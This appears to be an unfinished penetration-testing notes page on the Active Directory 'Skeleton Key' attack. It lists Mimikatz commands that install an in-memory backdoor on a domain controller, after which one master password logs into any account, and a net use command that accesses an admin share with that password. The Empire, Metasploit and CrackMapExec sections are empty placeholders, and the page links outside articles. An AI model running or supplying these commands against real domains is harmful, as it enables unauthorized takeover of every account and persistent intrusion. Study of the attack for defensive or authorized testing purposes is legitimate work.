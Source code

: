 ```yaml
---
description: Escalate privileges on a Domain using skeleton keys
coverY: 0
---
```


# 🔥 Skeleton Keys

## Do Not play GOD without Permission!

• The Skeleton Key only works for Kerberos **RC4 encryption**;&#x20;

• The Skeleton Key is a backdoor that runs on the **Domain Controller** (**in memory**) and allows single password (the skeleton password) that can be used to log on to any account;

• As it runs in memory, it does not persist by itself (but can, of course, be scripted or persisted)

### What is a Skeleton Key?

### What permissions do I need to generate a Skeleton Key?

Domain Admin

### MimiKatz

```
privilege::debug
misc::skeleton
```

```
net use p: \\WIN-MACHINE01\admin$ /user:rfs mimikatz
```

#### Run on Windows CMD

```
mimikatz.exe "privilege::debug" "misc::skeleton" exit
```

### Empire

```
// Some code
```

### Metasploit

```
// Some code
```

### CrackMapExec

```
// Some code
```

### LSA Protection ByPASS

### Articles

{% embed url="https://pentestlab.blog/2018/04/10/skeleton-key/" %}

{% embed url="https://blog.netwrix.com/2022/11/29/skeleton-key-attack-active-directory/" %}

{% embed url="https://adsecurity.org/?p=1275" %}

### Videos

{% embed url="https://www.youtube.com/watch?v=b6GUXerE9Ac" %}
